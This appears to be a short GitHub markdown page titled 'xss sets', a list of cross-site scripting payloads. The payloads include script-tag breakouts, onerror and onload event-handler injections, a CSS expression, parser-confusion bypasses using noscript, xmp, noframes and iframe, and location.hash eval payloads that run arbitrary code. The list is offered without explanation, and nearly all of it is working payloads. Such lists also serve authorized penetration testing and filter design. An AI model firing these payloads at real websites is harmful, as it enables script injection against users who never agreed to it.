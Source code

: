 # xss sets
[About Google](https://nosec.org/home/detail/2449.html)
[Xss Sets](https://www.hahwul.com/2019/04/bypass-xss-protection-with-xmp-noscript-etc....html)
```JavaScript
<script>alert(1)</script>
"><script>alert(1)</script>
"><script>alert(document.domain)</script>
'"><script>alert(1)</script>
'"><script>alert(1)</script>"
';"<script>alert(1)</script>
</script><script>alert(1)</script>
<img src='' onerror=alert(/poc/)>
<DIV STYLE="width: ｅxpression(alert('XSS'));">
"><BODY ONLOAD=alert(188)>,1/
</title><script>alert(/poc/)</script>
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
<noscript><p title="</noscript><svg/onload=alert(1)>">
<xmp><p title="</xmp><svg/onload=alert(1)>">
<noframes><p title="</noframes><svg/onload=alert(1)>">
<iframe><p title="</iframe><svg/onload=alert(1)>">
<iframe style="visibility:hidden"><p title="</iframe><svg/onload=alert(1)>">
<svg onload=alert(document.domain)>

location:
<body/onload=eval(location.hash.slice(1))>#alert(1)
<body/onload=setTimeout(location.hash.substr(1))>#alert(1)

```
